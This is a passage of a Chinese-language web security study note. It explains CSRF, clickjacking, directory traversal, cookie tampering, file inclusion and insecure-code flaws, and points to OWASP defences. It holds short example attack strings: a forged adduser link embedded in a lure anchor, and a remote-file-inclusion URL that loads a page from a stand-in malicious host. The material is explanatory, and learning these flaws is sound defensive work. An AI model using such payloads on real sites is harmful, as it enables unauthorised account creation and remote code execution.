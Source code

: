 再举一个例子说明，假设A站点 a.com，有一个接口是adduser，比如http://a.com?action=adduser&username=user&password=passwd
此时victim正常访问并登录a站点，attacker引诱victim打开b.com站点，而该站点有一个链接是 \<a href=http://a.com?action=adduser&username=user&password=passwd>苍老师全集 点我下载\</a> victim打开了这个链接就触发了CSRF，浏览器会在victim在b站点点击打开访问a站点的链接时，自动把cookie信息填上，完成身份认证。

更多csrf相关内容，可查看 [https://seclab.stanford.edu/websec/csrf/](https://seclab.stanford.edu/websec/csrf/)

## 点击劫持
![](http://kafroc.github.io/assets/img/Clickjacking_description.png)
图片来自[09-Testing_for_Clickjacking](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/09-Testing_for_Clickjacking)

所谓点击劫持是指attacker诱导victim点击的按钮/链接并非实际看到的，而是访问到其他恶意网站。

修复方式：服务器可以通过到http头部添加X-Frame-Options，以及可以强制当前frame为top-level

更多点击劫持防御方式，可查看 [https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)

## 错误配置漏洞
错误配置漏洞中，两个典型的漏洞是目录遍历漏洞和Cookie篡改(Cookie manipulation) 

### 目录遍历
在配置web服务器时，都有目录浏览的开关，如果使能目录浏览，就存在目录遍历漏洞。

书本中对目录遍历（Directory Traversal）的定义如下
> A directory traversal vulnerability can allow attackers to access files and directories **that are stored outside the web root folder.**

目录遍历的重点在于能否跳出web根目录，无论是通过相对路径 ../, 还是绝对路径/来跳出web根目录。

### Cookie篡改
和xss类似，attacker把恶意js代码注入到victim所访问的页面DOM中，最后再出发DOM中的代码执行，修改Cookie的值。

## 文件包含漏洞
文件包含可以分为 本地文件包含（LFI）和远程文件包含（RFI）

下面是一段对本地文件包含的描述，有点任意文件读取的感觉，但是也包括文件包含执行代码
> Successful exploitation could allow an attacker to read and (in some case) execute files on the victim's system

远程文件包含是指远程加载页面或者代码执行，比如
```
http://192.168.78.8/vulnerabilities/fi/?page=http://malicious.h4cker.org/malware.html
```

## 不安全的代码
+ 注释中带有敏感信息
+ 缺少错误管理 （查看参考文献[8]了解更多）
+ 硬编码凭证
+ 代码存在竞态条件
+ 未受保护的API （查看参考文献[9]了解更多）
+ 隐藏的元素
+ 缺少代码签名
